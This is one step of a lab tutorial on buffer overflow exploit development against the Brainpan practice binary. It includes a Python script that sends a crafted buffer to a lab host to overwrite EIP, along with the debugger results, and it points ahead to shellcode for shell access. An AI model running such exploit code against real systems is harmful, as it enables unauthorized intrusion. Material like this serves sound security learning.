

# Overwriting the EIP

In our previous step, we successfully overflowed the buffer, which means that we have control over the data that will overwrite the `EIP` (Extended Instruction Pointer).

To proceed with overwriting the `EIP`, we need to consider that there are `510` bytes preceding the `EIP`. Therefore, we will send `510` bytes filled with 'A' characters to reach the `EIP`, followed by `4` bytes filled with 'B' characters to overwrite the `EIP`.

To accomplish this, I have developed another script called [brainpan_fuzzer3.py](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/resources/brainpan_fuzzer3.py). This script is designed to perform the overwrite operation.

```python
#!/usr/bin/python3
import sys
import socket
from time import sleep

buffer = b"A" * 510 + b"B" * 4

while True:
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('192.168.10.4', 9999))
        payload = b'shitstorm /.:/' + buffer
        sock.send(payload)
        sock.close()
    except:
        print("Error connecting to the server")
        sys.exit()
```

After executing the script, I examined the output in `Immunity Debugger`. I observed that the `EBP` (Extended Base Pointer) was filled with 'A's `(41414141)`, and the `EIP` was filled with 'B's `(42424242)`.



Now that we have control over the `EIP`, we are ready to send a malicious shell code to compromise our target system and establish shell access through the brainpan.exe buffer. However, before executing our shell code smoothly, we need to identify any potentially problematic characters, known as `bad characters`.

___

Next, we'll proceed to [Finding bad characters](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/documentations/characters.md)